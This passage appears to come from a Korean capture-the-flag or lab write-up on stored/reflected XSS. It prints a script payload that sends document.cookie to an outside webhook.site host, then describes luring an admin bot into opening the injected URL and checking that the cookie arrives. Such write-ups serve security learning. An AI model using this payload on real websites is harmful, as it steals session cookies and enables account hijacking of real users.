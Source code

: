 ```html
<script>new Image().src='https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie='+document.cookie</script>
```

- **게시물 클릭 후 Webhook으로 쿠키 전송**

![xss1 쿠키 탈취](/assets/screenshots/stored-reflected-xss/xss1_cookie.png)

이제 관리자가 해당 게시글을 열람하면 삽입된 JavaScript가 실행되고, `document.cookie` 값을 포함한 요청이 webhook 서버로 전송된다.

관리자 봇이 스크립트가 들어간 URL을 클릭하게 만들어, 쿠키를 외부로 보내도록 하겠다.

![xss1 관리자 봇 접속 완료](/assets/screenshots/stored-reflected-xss/xss1_admin_access.png)

관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도하였고, 이후 Webhook에서 쿠키가 정상적으로 수신되었는지 확인한다.

